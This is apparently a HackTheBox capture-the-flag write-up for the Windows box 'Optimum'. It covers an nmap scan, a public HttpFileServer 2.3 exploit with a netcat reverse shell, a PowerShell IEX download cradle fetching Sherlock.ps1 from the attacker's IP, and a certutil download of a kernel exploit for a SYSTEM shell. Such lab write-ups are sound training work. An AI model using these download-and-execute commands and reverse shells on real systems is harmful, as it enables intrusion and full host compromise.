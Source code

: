 # Hackthebox - Optimum - Windows

- [Box on HTB](https://app.hackthebox.com/machines/Optimum)

## Nmap

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -T4 -sC -sV -O -Pn -p- 10.10.10.8
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-10 19:50 EDT
Nmap scan report for 10.10.10.8
Host is up (0.022s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-server-header: HFS 2.3
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 113.56 seconds
```

## Port 80

- We have an HttpFile Server  
![httpFileServer](../.res/2022-09-10-19-57-47.png)  

- If we google it we find [this exploit](https://www.exploit-db.com/exploits/39161) right away
- We have to get nc.exe in our attacking machine. Kali has binaries hosted so we can just copy and paste it in our working dir like this `cp /usr/share/windows-resources/binaries/nc.exe .`
- We have to serve netcat using python http server `python3 -m http.server 80`
- Then we have to modify the script and add our ip address and our port (I left 443)
- We set a listener `rlwrap nc -lvp 443`
- We launch our exploit `python2 39161 10.10.10.8 80`
- And we get a shell  
![shell](../.res/2022-09-10-20-20-16.png)  
- We can grab the user flag  
![user flag](../.res/2022-09-10-20-21-25.png)  

## Privesc

- Win version  

![win version](../.res/2022-09-10-20-31-23.png)  

### Kernel exploits

- `echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.3/Sherlock.ps1') | powershell -noprofile -`

![Local privesc](../.res/2022-09-10-21-53-34.png)  

- Let's find another exploit than the one mentioned in Sherlock (does not work) `searchsploit ms16-032`  

![searchsploit](../.res/2022-09-10-21-58-36.png)

- Tried a few exploits but none worked
- On google I found [this](https://www.exploit-db.com/exploits/41020)
- And in the comment they mention [this exe file](https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe)
- We download it in our kali
- Serve it with python
- `certutil.exe -urlcache -f http://10.10.14.3/41020.exe exploit.exe` get it in our target
- We launch it we get a system shell  

![system](../.res/2022-09-10-22-09-03.png)

- We can grab the root flag  

![root](../.res/2022-09-10-22-10-05.png)
